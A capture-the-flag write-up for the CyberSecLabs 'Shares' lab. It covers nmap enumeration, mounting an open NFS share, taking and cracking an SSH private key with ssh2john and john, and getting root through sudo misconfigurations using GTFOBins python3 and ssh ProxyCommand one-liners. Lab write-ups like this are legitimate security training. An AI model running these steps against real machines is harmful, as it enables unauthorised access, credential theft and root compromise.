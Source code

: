 ```yaml
---
title: "CyberSecLabs - Shares"
author: Nasrallah
description: ""
date: 2022-03-19 00:00:00 +0000
categories : [CyberSecLabs]
tags: [cyberselabs, linux, nfs, john, crack]
#img_path: /assets/img/cyberselabs
image:
  src:
  width:
  height:
  alt:
---
```


---

# **Description**

Hello l33ts, I hope you are doing well. Today we are going to look at []() from [Shares](https://www.cyberseclabs.co.uk/labs/info/Shares/) from [CyberSecLabs](https://www.cyberseclabs.co.uk).

# **Enumeration**
## nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressice scan to provide faster results.

![](/assets/img/cyberseclabs/shares/Untitled.png)

There are 4 open port.
  - 21/tcp     ftp     vsftpd 3.0.3
  - 80/tcp     http    Apache httpd 2.4.29
  - 111/tcp    rpcbind 2-4
  - 2049/tcp   nfs_acl 3

Since the machine is called shares, i decided to look for any nfs shares.

## NFS

We can list nfs shares using the following command: `showmount -e {target_IP}`

![](/assets/img/cyberseclabs/shares/Untitled1.png)

We found a share, let's mount it on our attacking machine.

First, use `mkdir /tmp/share` to create a directory on your machine to mount the share to. Now let's use the following command to mount the nfs share to our machine. `sudo mount -t nfs IP:/home/amir /tmp/share -nolock`

 - sudo :	Run as root
 - mount :	Execute the mount command
 - -t nfs :	Type of device to mount, then specifying that it's NFS
 - IP:share :	The IP Address of the NFS server, and the name of the share we wish to mount
 - -nolock :	Specifies not to use NLM locking

![](/assets/img/cyberseclabs/shares/Untitled2.png)

Great! We have successfully mounted the share.
It appears to be the home directory of **amir**, and it a **.ssh** directory that contains a private key, but when we run a port scan, there was no ssh service listening on the machine, let's run another scan for all ports. `sudo nmap -p- {target_IP}`

![](/assets/img/cyberseclabs/shares/Untitled3.png)

Great! We found the port of ssh.

# **Foothold**

Let's now use the private key we got from the nfs share so connect to the machine.

![](/assets/img/cyberseclabs/shares/Untitled4.png)

the private key has a password protecting it, using `ssh2john` we were able to extract a hash that we managed to crack using `john`. Let's try connecting again.

![](/assets/img/cyberseclabs/shares/Untitled5.png)


# **Privilege Escalation**

We now have access to the machine as **amir**, let's do some basic enumeration.

```terminal
amir@shares:~$ sudo -l
Matching Defaults entries for amir on shares:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User amir may run the following commands on shares:
    (ALL : ALL) ALL
    (amy) NOPASSWD: /usr/bin/pkexec
    (amy) NOPASSWD: /usr/bin/python3
```

We see that as amir, we can execute any command as root but we need a password for that, on the other hand, we can execute `/usr/bin/pkexec` and `/usr/bin/python3` as **amy**. We go to [GTFOBins](https://gtfobins.github.io/) and get a pkexec/python3 command that would give us a shell as amy.
  - python3 : `sudo -u amy python -c 'import os; os.system("/bin/bash")'`
  - pkexec : `sudo -u amy pkexec /bin/sh`

We can't escalate to amy with `pkexec` so let's use `python3`

![](/assets/img/cyberseclabs/shares/Untitled6.png)

We have amy's shell now, let's run another `sudo -l` to see what we can run.

```terminal
amy@shares:~$ sudo -l
Matching Defaults entries for amy on shares:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User amy may run the following commands on shares:
    (ALL) NOPASSWD: /usr/bin/ssh
```
We can run `ssh` as root.
Going back to [GTFOBins](https://gtfobins.github.io/) and searching for ssh, we find that we can run the following command to get root `sudo ssh -o ProxyCommand=';bash 0<&2 1>&2' x`

![](/assets/img/cyberseclabs/shares/Untitled7.png)



---

Thank you for taking the time to read my writeup, I hope you have learned something with this, if you have any questions or comments, please feel free to reach out to me. See you in the next hack :) .
